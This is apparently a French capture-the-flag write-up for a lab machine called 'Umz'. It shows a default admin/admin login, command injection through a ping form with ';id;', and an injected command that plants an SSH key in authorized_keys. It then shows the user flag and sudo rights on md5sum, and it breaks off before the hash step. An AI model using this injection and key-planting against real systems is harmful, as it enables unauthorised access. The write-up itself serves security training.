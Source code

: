 On a donc une appli Flask avec une mire de login non protégée par un token CSRF.

Toutefois, un simple essai de connexion avec `admin` / `admin` a réussi.

Là, un champ de texte avec le placeholder `Enter IP address` et un bouton `Execute ping` s'offrent à nous.

Je m'empresse de saisir `;id;` et j'obtiens `uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)` : une faille d'exécution de commandes toute simple.

La suite : ajouter une clé SSH autorisée pour cet utilisateur :

```bash
;mkdir /home/welcome/.ssh;echo "ssh-rsa AAAAB3N--- snip ---OjVkzx3" > /home/welcome/.ssh/authorized_keys;
```

### Unstrip

Je peux désormais passer par SSH :

```console
$ ssh -i ~/.ssh/hacker welcome@192.168.56.110
Last login: Fri Apr 11 22:27:59 2025 from 192.168.3.94
welcome@Umz:~$ ls
user.txt
welcome@Umz:~$ cat user.txt 
flag{user-4483f72525b3c316704cf126bec02d5c}
```

Pour une fois la commande autorisée par sudo change des scénarios habituels :

```console
welcome@Umz:~$ sudo -l
Matching Defaults entries for welcome on Umz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Umz:
    (ALL) NOPASSWD: /usr/bin/md5sum
```

On imagine tout de même le scénario rapidement : un password doit se trouver quelque part et on va devoir casser le hash obtenu.

Je ne met pas longtemps avant de trouver le fichier en question :


```console
welcome@Umz:~$ ls /opt/flask-debug/ -al
total 20
drwxr-xr-x 2 welcome welcome 4096 May  3 10:32 .
drwxr-xr-x 3 root    root    4096 May  3 09:46 ..
-rw-r--r-- 1 root    root    5001 May  3 10:23 flask_debug.py
-rwx------ 1 root    root      10 May  3 10:32 umz.pass
```

Je peux donc obtenir son hash MD5 :
